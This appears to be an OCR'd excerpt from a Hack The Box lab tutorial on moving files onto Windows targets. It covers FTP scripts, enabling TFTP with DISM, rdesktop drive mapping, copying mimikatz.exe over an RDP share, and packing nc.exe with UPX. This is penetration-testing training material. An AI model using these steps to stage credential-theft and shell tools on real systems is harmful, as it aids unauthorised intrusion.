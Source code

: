 FTP Transfer
------------

##
PS C:\htb> ftp -s:ftp-script.txt
##

TFTP
----

The TFTP client is not available by default in Windows, but it can be enabled using DISM. \

##
PS C:\htb> DISM /online /Enable-Feature /FeatureName:TFTP
##

In newer versions of Windows, the Install-WindowsFeature PowerShell cmdlet can also be used. Both DISM and Install-WindowsFeature require administrative access.

##
PS C:\htb> Install-WindowsFeature TFTP-Client
##

RDP
---

Remote Desktop is often enabled on Windows machines, and from Linux, **rdesktop** can be used to expose a local folder in the remote RDP session.

##
Waheed Nusrat@htb[/htb]$ rdesktop 10.10.10.132 -r disk:linux='/home/user/rdesktop/files'
##

Alternatively, from Windows, the native mstsc.exe remote desktop client can be used.

After selecting the drive, we can interact with it in the remote session as follows:

##
PS C:\htb> copy \\tsclient\c\temp\mimikatz.exe .
##

This drive is not accessible to any other users logged on to the target computer, even if they manage to hijack the RDP session.

Echo Copy
---------

On machines with a very stringent lockdown policy, it may be necessary to echo copy files. Let’s examine how nc.exe can be transferred to a target Windows computer using this method.

Echo copying files is very inefficient and can result in a large amount of data being transferred across the clipboard, so we can use an executable packer such as [UPX](https://github.com/upx/upx/releases) to make the source file as small as possible.

##
Waheed Nusrat@htb[/htb]$ upx --best nc.exe
##
